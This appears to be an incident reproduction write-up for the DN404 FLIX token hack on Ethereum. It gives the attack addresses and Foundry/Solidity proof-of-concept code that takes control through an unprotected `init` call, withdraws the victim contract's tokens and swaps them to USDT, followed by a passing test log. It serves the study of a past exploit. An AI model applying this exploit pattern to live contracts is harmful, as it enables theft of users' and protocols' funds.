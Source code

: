 # FLIX Token Attack Incident

## Information
+ Protocol Name: DN404 FLIX
+ Total Loss: 200 K
+ Network: Ethereum Mainnet
  
+ Attacker: 0xd215ffaf0f85fb6f93f11e49bd6175ad58af0dfd
+ Attack Contract: 0xd129d8c12f0e7aa51157d9e6cc3f7ece2dc84ecd
+ Victim Contract: 0x2c7112245fc4af701ebf90399264a7e89205dad4
+ Transaction: 0xbeef09ee9d694d2b24f3f367568cc6ba1dad591ea9f969c36e5b181fd301be82

## Reproduction
1. Add funding token and configure block number:

```solidity
uint256 constant forkBlock = 19_196_685;
address constant fundToken = address(0xdAC17F958D2ee523a2206206994597C13D831ec7);
```

2. Add constant variable:

```solidity
address constant WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
address constant FLIX = 0x83Cb9449b7077947a13Bf32025A8eAA3Fb1D8A5e;
address constant USDT = 0xdAC17F958D2ee523a2206206994597C13D831ec7;
address constant Victim = 0x2c7112245Fc4af701EBf90399264a7e89205Dad4;
address constant Pair = 0xa7434b755852F2555D6F96B9E28bAfE92F08Df97;
```

3. Add label in `setup` function
```solidity
vm.label(Victim, "Proxy");
vm.label(WETH, "WETH");
vm.label(FLIX, "FLIX");
vm.label(USDT, "USDT");
vm.label(Pair, "Uniswap V3 Pair");
```

4. Add necessary interface for victim contract
```solidity
interface IProxy {
    function init(IERC20 initToken, uint256 initPeriods, uint256 initInterval) external;
    function withdraw(IERC20 otherToken, uint256 amount, address receiver) external;
}
```

5. Execute exploit process:
```solidity
// Step 1: Call unprotected `init` function
uint256 initPeriods = 1;
uint256 initInterval = 1_000_000_000_000_000_000;
uint256 amount = IERC20(FLIX).balanceOf(Victim);
IProxy(Victim).init(IERC20(WETH), initPeriods, initInterval);

// Step 2: Bypass `onlyOwner` modifier and call `withdraw`
IProxy(Victim).withdraw(IERC20(FLIX), amount, address(this));
```

6. Execute post attack handling:
```solidity
// Swap FLIX token to USDT
address recipient = address(this);
bool zeroForOne = true;
int256 amountSpecified = int256(IERC20(FLIX).balanceOf(address(this)));
uint160 sqrtPriceLimitX96 = 4_295_128_740;
IUniswapV3Pair(Pair).swap(recipient, zeroForOne, amountSpecified, sqrtPriceLimitX96, "");
```

7. Run forge command and check the final result:

Command
```bash
forge test --mc FLIXTest -vvv
```

Result
```bash
Ran 1 test for test/FLIX/PoC.t.sol:FLIXTest
[PASS] testExploit() (gas: 159575)
Logs:
  Attacker Token Balance Before Exploit:  0
  Attacker Token Balance After Exploit:  169577736489

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 530.42ms (2.15ms CPU time)
```
